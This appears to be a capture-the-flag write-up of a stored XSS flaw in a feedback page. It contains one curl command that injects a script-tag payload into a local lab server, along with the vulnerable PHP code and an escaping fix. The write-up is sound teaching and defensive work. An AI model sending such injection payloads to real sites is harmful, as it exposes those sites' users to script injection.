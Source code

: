 # Stored XSS in Feedback page

## 📖 Vulnerability Explanation
The feedback page stores comments in a database, but the application does not sanitize the input either when storing or when displaying the comments. This leads to the possibility of injecting HTML code.

## ⚙️ Exploitation Process
By sending a script tag we can trigger the XSS and get the flag.

- The following command sends the payload using curl:

```
curl -s -X POST -d 'txtName=</td><script>alert(42)</script>&mtxtMessage=a&btnSign=' 'http://localhost:9090/index.php?page=feedback | grep flag'
```

## 🔧 Fix
The server should sanitize the comments at display time to protect against injections.

## ☝️🤓 Advanced explanation
The following code showcases how the XSS works in the server:

```
<?php
// Query the comment from db
$comment = getCommentFromDatabase();

// Display comment with no sanitization, risk of XSS
echo $comment;
?>
```

This code snippet shows how to fix the issue:

```
<?php
// Query the comment from db
$comment = getCommentFromDatabase();

// Escape special HTML characters to protect against XSS
echo htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
?>
```